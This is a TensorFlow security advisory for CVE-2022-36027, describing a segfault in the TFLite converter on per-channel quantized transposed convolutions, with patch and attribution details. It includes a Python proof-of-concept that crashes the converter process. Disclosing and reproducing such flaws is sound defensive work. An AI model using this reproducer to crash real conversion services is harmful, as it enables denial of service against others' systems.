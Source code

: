 ## TFSA-2022-093: Segfault TFLite converter on per-channel quantized transposed convolutions

### CVE Number
CVE-2022-36027

### Impact
When converting transposed convolutions using per-channel weight quantization the converter segfaults and crashes the Python process.
```python
import tensorflow as tf

class QuantConv2DTransposed(tf.keras.layers.Layer):
    def build(self, input_shape):
        self.kernel = self.add_weight("kernel", [3, 3, input_shape[-1], 24])

    def call(self, inputs):
        filters = tf.quantization.fake_quant_with_min_max_vars_per_channel(
            self.kernel, -3.0 * tf.ones([24]), 3.0 * tf.ones([24]), narrow_range=True
        )
        filters = tf.transpose(filters, (0, 1, 3, 2))
        return tf.nn.conv2d_transpose(inputs, filters, [*inputs.shape[:-1], 24], 1)


inp = tf.keras.Input(shape=(6, 8, 48), batch_size=1)
x = tf.quantization.fake_quant_with_min_max_vars(inp, -3.0, 3.0, narrow_range=True)
x = QuantConv2DTransposed()(x)
x = tf.quantization.fake_quant_with_min_max_vars(x, -3.0, 3.0, narrow_range=True)

model = tf.keras.Model(inp, x)

model.save("/tmp/testing")
converter = tf.lite.TFLiteConverter.from_saved_model("/tmp/testing")
converter.optimizations = [tf.lite.Optimize.DEFAULT]

# terminated by signal SIGSEGV (Address boundary error)
tflite_model = converter.convert()
```

### Patches
We have patched the issue in GitHub commit [aa0b852a4588cea4d36b74feb05d93055540b450](https://github.com/tensorflow/tensorflow/commit/aa0b852a4588cea4d36b74feb05d93055540b450).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Lukas Geiger via [Github issue](https://github.com/tensorflow/tensorflow/issues/53767).
